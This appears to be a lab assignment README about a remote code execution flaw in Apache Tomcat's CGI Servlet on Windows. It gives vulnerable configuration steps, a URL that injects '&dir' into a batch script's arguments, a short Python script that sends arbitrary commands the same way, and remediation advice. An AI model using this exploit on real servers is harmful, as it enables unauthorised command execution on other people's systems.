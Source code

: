 # PS
- Bug Overview: Apache Tomcat has a vulnerability in the CGI Servlet which can be exploited to achieve remote code execution (RCE). This is only exploitable when running on Windows in a non-default configuration in conjunction with batch files.
- Aim: Write a working exploit by which you can achieve RCE on the local VM.
- Install vulnerable service in a VM and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.

# Environment Setup:
1. Install a Java Runtime Environment (JRE) in Windows.
1. Download a vulnerable version of Tomcat and extract.
1. Modify the `conf\context.xml` file on line 19, to enable privileged context:

	``` html
	<Context privileged="true">
	```	
1. Modify `conf\web.xml` to enable the CGI Servlet by removing the comments around line 387 as follows and adding the following parameters: 

	``` html

	<servlet><servlet-name>cgi</servlet-name>
	<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
	<init-param>
	  <param-name>cgiPathPrefix</param-name>
	  <param-value>WEB-INF/cgi</param-value>
	</init-param>
	<init-param>
	  <param-name>executable</param-name>
	  <param-value></param-value>
	</init-param>
	<init-param>
	  <param-name>enableCmdLineArguments</param-name>
	  <param-value>true</param-value>
	</init-param>
	<load-on-startup>5</load-on-startup>
	</servlet>
	```

1.	Enable the CGI servlet by removing comments around this – you also need to change the URL pattern to match the one in the previous step (`cgi`):
	``` html
	<servlet-mapping>
	<servlet-name>cgi</servlet-name>
	<url-pattern>/cgi/*</url-pattern>
	</servlet-mapping>
	```

1.	Create a folder for the CGI files:
 	`mkdir webapps\ROOT\WEB-INF\cgi`
1.	Create any non empty bat file with valid commands.
1.	Run Tomcat via the following command:
	``` bash
        cd bin
	catalina run
        ```
1.	Trigger the following URLs and observe the dir command being run:	http://localhost:8080/cgi/test.bat?&dir
	Or run the attached exploit code.
  
# Exploit Code:

```python3

	import requests as re
	base_url = raw_input("Enter url of the .bat cgi script: ")
	while(True):
		command = raw_input("Enter the command: ")
		command = '&echo off'+'&echo.'+'&'+command
		r = re.get(base_url, params=command.replace(" ","+"))
		print(r.text)
```
  
# Remediation:
1.	Set `enableCmdLineArguements` to `False`.
1.	If above option is required then add additional parameter `cmdLineArgumentsDecoded` for proper input validation. 
